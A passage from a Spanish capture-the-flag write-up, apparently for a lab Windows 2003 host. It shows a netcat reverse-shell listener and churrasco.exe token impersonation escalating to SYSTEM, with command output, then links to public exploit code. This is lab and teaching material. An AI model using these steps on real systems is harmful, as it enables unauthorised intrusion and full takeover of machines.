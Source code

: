 * Activamos una **netcat** con el puerto que pusimos en el Payload:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
```

* Una vez dentro ambos archivos, activamos el **Churrasco**:
```batch
C:\WINDOWS\Temp\Privesc>churrasco.exe -d "C:\WINDOWS\Temp\Privesc\shell.exe"
churrasco.exe -d "C:\WINDOWS\Temp\Privesc\shell.exe"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

* Y ya somo **Root**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.14] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```
Solamente busca las flags en el directorio **Documents and Settings**, cada flag está en su respectivo directorio. 


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.exploit-db.com/exploits/41738
* https://www.google.com/search?client=firefox-b-e&q=WebDAV+que+es
* https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-062
* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
* https://github.com/r00t-3xp10it/venom/issues/1
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
* https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/ 
* https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/
